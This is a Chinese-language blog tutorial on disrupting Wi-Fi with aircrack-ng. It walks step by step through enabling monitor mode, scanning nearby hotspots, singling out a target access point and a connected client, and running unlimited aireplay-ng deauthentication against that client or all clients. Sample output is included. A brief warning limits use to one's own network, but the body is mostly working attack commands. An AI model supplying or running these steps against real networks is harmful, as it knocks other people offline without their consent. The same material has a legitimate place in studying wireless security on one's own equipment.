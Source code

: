 ```yaml
---
title: "中斷無線網路的方法"
date: 2021-05-03T10:01:49+08:00
draft: true
tags: ["secure","aircrack","資安","wifi"]
featured_image: "/secure.jpg"
---
```


### 警告：此方法只能用於自己的無線網路裝置，目的應該是了解無線網路運作，絕對不能造成他人的困擾或損失，我們應該秉持所有人類都是同胞的心態。就算你的鄰居或同學很令你厭煩，也千萬不能將這個用在他身上，你唯一能作的就是替他祈禱。

環境建議:  
本機安裝的linux  
(虛擬機或docker不一定有權限直接操作物理的wifi網路卡）  
Ubuntu/Debian/Linux mint 

## 1.下載無線網路工具aircrack
更新軟體庫
```bash
sudo apt update
```
安裝aircrack-ng軟體
```bash
sudo apt install aircrack-ng
```
## 2.檢查wifi網路卡名稱
找到自己的wifi網路卡名稱
```bash
iwconfig
```
以我的筆電來說無線網卡的開頭名稱常常是wl  
就像這樣(為了安全這裡的數值都更改過，非原數值)  
```
wlp3s0    IEEE 802.11  ESSID:"alex"  
          Mode:Managed  Frequency:2.462 GHz  Access Point: FF:FF:FF:FF:FF:FF   
          Bit Rate=72.2 Mb/s   Tx-Power=15 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:off
          Link Quality=52/70  Signal level=-58 dBm  
          Rx invalid nwid:0  Rx invalid crypt:0  Rx invalid frag:0
          Tx excessive retries:0  Invalid misc:19   Missed beacon:0

```
我的網卡名稱是wlp3s0  
## 3.監聽模式
把網卡切換成監聽模式
```
sudo airmon-ng start wlp3s0(這裡改成你的網卡名稱)
```
檢查網卡名稱是否變成監聽模式的名稱
```
iwconfig
```
來看看我的網卡名稱是否改變  
```
wlp3s0mon  IEEE 802.11  Mode:Monitor  Frequency:2.462 GHz  Tx-Power=15 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:off
```
我的網卡名稱變成wlp3s0mon了，成功進入監聽模式  

## 4.開始蒐集所有wifi熱點資訊
顯示監聽結果
```
 sudo airodump-ng wlp3s0mon(你的網卡名稱)
```
我們這時可以看到周遭所有啟動的wifi熱點基地台  
```
 CH  4 ][ Elapsed: 12 s ][ 2021-05-03 11:33 

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID
                                              
 EE:EE:EE:AA:AA:AA  -72       30        3    0  11  130   WPA2 CCMP   PSK  alice                                                        
 DD:DD:DD:DD:DD:DD  -60       34        0    0  6   65   WPA2 CCMP   PSK  bob 
```
這裡我們可以看到有兩個熱點，看到ESSID那欄，名稱分別是alice跟bob  
我們的目標是alice  
BSSDID是，這有點類似車牌，可是區分出無線網路中的不同裝置    
alice的熱點的BSSID:  
```
EE:EE:EE:AA:AA:AA
```
然後這時候看到CH那一欄
alice的CH(頻道)是:
```
11
```
## 5.監聽目標wifi熱點
這時候我們可以來看看有誰連上alice的wifi熱點  
```
sudo airodump-ng --bssid EE:EE:EE:AA:AA:AA --channel 11  wlp3s0mon 
```
監聽到的結果
```
 CH 11 ][ Elapsed: 8 mins ][ 2021-05-03 11:54 ][ WPA handshake: EE:EE:EE:AA:AA:AA 

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 EE:EE:EE:AA:AA:AA  -64 100     1152      332    0  11   65   WPA2 CCMP   PSK  alex                                                   

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 EE:EE:EE:AA:AA:AA  CC:CC:CC:CC:CC:CC  -67    1e- 0e     0      193  EAPOL  alex 
```
注意看底下STATION那個欄位有一個奇怪的MAC位址：
```
CC:CC:CC:CC:CC:CC
```
啊！原來有一個人連上了alice的wifi熱點，他的MAC位址是CC:CC:CC:CC:CC:CC  
我們幫它取名為Peter吧～  
Peter的電腦網卡MAC位置是CC:CC:CC:CC:CC:CC  
## 6.中斷無線網路
我們現在用下面這條指令中斷Peter的連線  
```
sudo aireplay-ng --deauth 0 -c CC:CC:CC:CC:CC:CC -a  EE:EE:EE:AA:AA:AA wlp3s0mon
```
加上註解
```
sudo aireplay-ng --deauth（中斷登入攻擊） 0（0代表無限次） -c CC:CC:CC:CC:CC:CC（被攻擊者peter的MAC位址） -a  EE:EE:EE:AA:AA:AA（alice的wifif熱點ID） wlp3s0mon(網卡名稱)
```
如果想要中斷所有使用者  

```
sudo aireplay-ng --deauth 0  -a  EE:EE:EE:AA:AA:AA wlp3s0mon
```

## 7.復原自己的無線網路狀態
我們測試完畢了，把無線網卡從監聽狀態回復為一般狀態  
```
sudo  airmon-ng stop  wlp3s0mon
```
不復原網卡你就無法正常上網